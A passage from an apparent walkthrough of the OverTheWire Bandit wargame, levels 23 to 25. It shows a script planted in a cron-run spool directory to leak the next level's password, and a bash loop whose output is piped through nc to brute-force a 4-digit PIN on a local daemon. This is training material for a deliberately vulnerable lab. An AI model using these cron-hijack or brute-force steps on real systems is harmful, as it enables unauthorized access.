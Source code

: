 ```sh
bandit23@bandit:/tmp/sec$ touch password
bandit23@bandit:/tmp/sec$ chmod 666 password
bandit23@bandit:/tmp/sec$ ls -al password
-rw-rw-rw- 1 bandit23 root 0 Mar 26 08:11 password
```
Finally, we copy the script to **/var/spool/bandit24** and wait for the script running automatically in a minute.
```sh
bandit23@bandit:/tmp/sec$ cp sec.sh /var/spool/bandit24/
bandit23@bandit:/tmp/sec$ ls -al /var/spool/bandit24/sec.sh
-rwxr-xr-x 1 bandit23 bandit23 68 Mar 26 08:16 /var/spool/bandit24/sec.sh
bandit23@bandit:/tmp/sec$ ls -al password
-rw-rw-rw- 1 bandit23 root **0** Mar 26 08:17 password
```
    ...(wait a minute)
```sh
bandit23@bandit:/tmp/sec$ ls -al password
-rw-rw-rw- 1 bandit23 root 33 Mar 26 08:18 password

bandit23@bandit:/tmp/sec$ cat password
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

## Bandit Level 24 → Level 25

{: .box-warning}
**Level Goal:** A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

```sh
bandit24@bandit:~$ mkdir /tmp/imp
bandit24@bandit:~$ cd /tmp/imp
bandit24@bandit:/tmp/imp$ touch file.sh
bandit24@bandit:/tmp/imp$ nano file.sh
```
Type this script
```sh
#!/bin/bash
password24=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

for i in {0000..9999}
  do
    echo $password24 $i >> passlist.txt
  done
```

Give the permissions

```sh
bandit24@bandit:/tmp/imp$ chmod 777 file.sh
```
Execute the file.sh
```sh
bandit24@bandit:/tmp/imp$ ./file.sh
bandit24@bandit:/tmp/imp$ ls -la
total 896
drwxr-sr-x    2 bandit24 root   4096 Jun 14 14:55 .
drwxrws-wt 4493 root     root 524288 Jun 14 14:55 ..
-rwxrwxrwx    1 bandit24 root    131 Jun 14 14:52 file.sh
-rw-r--r--    1 bandit24 root 380000 Jun 14 14:55 passlist.txt
bandit24@bandit:/tmp/imp$ cat passlist.txt | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
```